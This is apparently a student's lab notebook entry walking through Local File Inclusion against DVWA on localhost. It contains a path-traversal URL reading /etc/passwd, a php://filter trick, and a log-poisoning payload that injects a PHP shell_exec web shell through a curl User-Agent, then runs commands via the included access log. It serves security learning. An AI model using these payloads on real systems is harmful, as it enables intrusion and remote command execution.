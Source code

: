 # 🧠 Day 2 — Local File Inclusion (LFI) Vulnerability Walkthrough

## 🔍 What is LFI?

Local File Inclusion (LFI) is a web vulnerability that allows an attacker to include files on a server through the web browser. This can lead to information disclosure, code execution, or full server compromise depending on how it's leveraged.

---

## 🔎 Basic LFI Test: Reading `/etc/passwd`

The first parameter tested was:

http://127.0.0.1/DVWA/vulnerabilites/?page=../../../../../../etc/passwd
this gave us the access to the /etc/passwd file of the server.

The things we can note about services and users from this are: 
- The Users with **login Permissions** have: `/usr/bin/zsh`
- The services with **no login Permission** have: `/usr/sbin/nologin`
- And some are even more restricted and have: `/usr/bin/false`, which literally exit when called.
![LFI passwd Output](/Day-2-notes/Screenshots/Passwd-output.png)

## `php://filter` trick (base64 encoding)

On higher security like (high/medium), these files of the server are not just directly accessible as they are in low security level, and to get that we access them using `php://filter`

- we accessed the same `/etc/passwd` but with the phpFilter, This gave us the base64 encoded version of the output.
- to covert it back to human readable form, we ran this: 
```bash
echo "encoded string" | base64 -d
```
here '*-d*' is for decoding the string using base64.

## 🧾 Log File Injection (Log Poisoning)
This is a bit advanced trick. This lets us inject malicious code to the server's log file.
The injected payload was:
```bash
curl -A "<?php echo shell_exec(\$_GET['cmd']); ?>" http://127.0.0.1/DVWA/vulnerabilities/fi/?page=include.php
```
- here, to actually run this, we had to give the access of the `/var/log/apache2/access.log` to others, to do that we ran this:
```bash
sudo chmod o+r /var/log/apache2/access.log
```
- after doing this we simply accessed a file on which we want to run the command, to execute, we accessed:
http://127.0.0.1/DVWA/vulnerabilites/fi/?page=../../../../var/log/apache2/access.log&cmd=ls

![Log inclusion output](/Day-2-notes/Screenshots/Log-inclusion-output.png) 
